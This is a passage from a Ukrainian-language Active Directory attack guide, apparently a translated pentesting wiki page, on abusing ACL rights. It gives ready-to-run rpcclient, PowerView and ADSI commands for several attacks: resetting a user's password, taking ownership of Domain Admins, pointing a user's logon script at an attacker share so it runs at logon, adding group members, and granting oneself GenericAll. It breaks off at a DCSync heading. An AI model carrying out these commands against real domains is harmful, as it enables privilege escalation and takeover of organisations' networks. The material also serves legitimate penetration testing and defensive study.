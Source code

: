 ```bash
rpcclient -U KnownUsername 10.10.10.192
> setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
```
## **WriteOwner в групі**

Якщо зловмисник виявить, що має права `WriteOwner` над групою, він може змінити власника групи на себе. Це особливо критично, коли йдеться про `Domain Admins`, оскільки зміна власника дозволяє ширший контроль над атрибутами групи та її членством. Процес включає визначення потрібного об'єкта за допомогою `Get-ObjectAcl`, а потім використання `Set-DomainObjectOwner` для зміни власника — або за SID, або за ім'ям.
```bash
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico
```
## **GenericWrite на користувача**

Цей дозвіл дозволяє атакуючому змінювати властивості користувача. Зокрема, маючи доступ `GenericWrite`, атакуючий може змінити шлях до скрипту входу користувача, щоб виконати шкідливий скрипт під час входу. Це досягається за допомогою команди `Set-ADObject` для оновлення властивості `scriptpath` цільового користувача, вказавши на скрипт атакуючого.
```bash
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```
## **GenericWrite on Group**

З цим привілеєм зловмисники можуть маніпулювати членством у групі, наприклад додавати себе або інших користувачів до певних груп. Цей процес включає створення об'єкта облікових даних (credential object), використання його для додавання або видалення користувачів із групи та перевірку змін членства за допомогою команд PowerShell.
```bash
$pwd = ConvertTo-SecureString 'JustAWeirdPwd!$' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('DOMAIN\username', $pwd)
Add-DomainGroupMember -Credential $creds -Identity 'Group Name' -Members 'username' -Verbose
Get-DomainGroupMember -Identity "Group Name" | Select MemberName
Remove-DomainGroupMember -Credential $creds -Identity "Group Name" -Members 'username' -Verbose
```
## **WriteDACL + WriteOwner**

Володіння об'єктом AD і наявність привілеїв `WriteDACL` на ньому дозволяє нападнику надати собі привілеї `GenericAll` щодо цього об'єкта. Це досягається шляхом маніпуляцій ADSI, що дає повний контроль над об'єктом і можливість змінювати його членство в групах. Водночас існують обмеження при спробі експлуатувати ці привілеї за допомогою модуля Active Directory та cmdlet'ів `Set-Acl` / `Get-Acl`.
```bash
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```
## **Реплікація в домені (DCSync)**
